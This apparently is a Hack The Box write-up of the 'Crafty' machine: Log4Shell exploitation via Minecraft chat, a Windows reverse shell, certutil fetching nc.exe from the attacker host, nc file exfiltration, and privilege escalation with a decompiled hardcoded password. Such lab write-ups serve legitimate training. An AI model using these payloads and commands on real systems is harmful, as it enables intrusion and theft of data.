---
---

# HTB - Crafty

- NMAP

```bash
nmap 10.129.18.108 -Pn -p- -vv

```


- Add crafty.htb to /etc/hosts


- Subdomain enumeration:

```bash
wfuzz -u crafty.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crafty.htb" --hl 1

```
- Download a Minecraft player - Tslauncher
- Run the .jar file and enter any username and choose the version
- Then install and enter game




- Add server




- Join server

- Here is a POC log4j-shell for this version
[https://github.com/kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ&t=1532s)

<https://github.com/pentesterland/Log4Shell>

- Clone the directory and cd into it

```bash
git clone https://github.com/kozmer/log4j-shell-poc

```
- Download jdk1.8 - and rename the folder to jdk1.8.0_20:

```bash
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

```



- Set up listener:



- Run python script:


- Copy the string to send:

```bash
${jndi:ldap://10.10.14.38:1389/a}

```
- In the TSlauncher app - Press T to open the chat box
Paste in the code




- We can see the GET requests from the webserver



- But no shell

- Looking at the code:




This is for a Linux server

- We need to change the payload for a Windows reverse shell:



- Replace /bin/sh with cmd.exe - The IP and Port forwarding happens in the Java code itself

- Repeat the steps:
  - Set up listener
  - Run the python poc.py
  - Copy the command
  - Paste into minecraft chat

- Shell






```bash
dir /Q /A

```



- Found a .jar file



- We can't read it here so we need to transfer it to Kali

- Set up Python server

- Copy nc.exe over to the target:

`certutil.exe -urlcache -f http://10.10.14.38:8082/nc.exe c:\Users\svc_minecraft\Documents\nc.exe`


- Using nc we can send and receive:
  - On Kali:

```bash
nc -lnvp 4444 > playercounter-1.0-SNAPSHOT.jar

```
- On Windows:

```bash
c:\Users\svc_minecraft\Documents\nc.exe 10.10.14.38 4444 < playercounter-1.0-SNAPSHOT.jar

```
- **Ctrl+C on Kali** to stop the connection









- Reading the Java archive file:

```bash
jar tf <file.jar>:
```


- Extract with:

```bash
jar xf <file.jar>
```

- That didn't extract anything useful and not all the files were there, as seen above

- Open the .jar file with a Java Decompiler JD-GUI:


- We find a potential password

- Open Powershell and enter the following to open a new Powershell session as Admin:

```powershell
$User = "Administrator"
$Password = ConvertTo-SecureString "<Password>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential($User, $Password)
Start-Process cmd.exe -Credential $Credential
```




